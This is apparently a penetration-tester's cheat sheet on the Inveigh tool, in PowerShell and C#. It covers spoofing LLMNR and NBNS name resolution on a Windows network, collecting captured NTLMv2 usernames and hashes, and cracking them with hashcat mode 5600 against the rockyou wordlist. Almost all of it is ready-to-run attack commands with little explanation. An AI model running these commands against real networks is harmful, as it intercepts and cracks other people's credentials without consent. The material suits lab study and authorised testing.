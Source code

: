 The PowerShell version of Inveigh is the original version and is no longer updated.
The tool author maintains the C# version, which combines the original PoC C# code and a C# port of most of the code from the PowerShell version
#### Documentation
- https://github.com/Kevin-Robertson/Inveigh
- https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters

## Inveigh (Powershell) - No more supported (Shell administrator)
```powershell
# Push into memory
Import-Module .\Inveigh.ps1
# Show usage
(Get-Command Invoke-Inveigh).Parameters

# Example of spoofing LLMNR and NBNS protocols
# Enable NBNS
# Enable Console Output
# Enable output to a file
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

## InveighZero (C#) - Shell administrator - Support for NBT-NS not setup here
Before we can use the C# version of the tool, we have to compile the executable.
```powershell
# Simply launch the executable
.\Inveigh.exe

# To enter and leave interactive mode enter ESC
C(0:0) NTLMv1(0:0) NTLMv2(2:10)> HELP

# Usefull commands
C(0:0) NTLMv1(0:0) NTLMv2(2:10)> GET NTLMV2USERNAMES
C(0:0) NTLMv1(0:0) NTLMv2(2:10)> GET NTLMV2UNIQUE
```
## Hashcat
```bash
# Example usage
hashcat -m <hash_type> <hash_file> <wordlist>
# for NTLMv2 hash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```
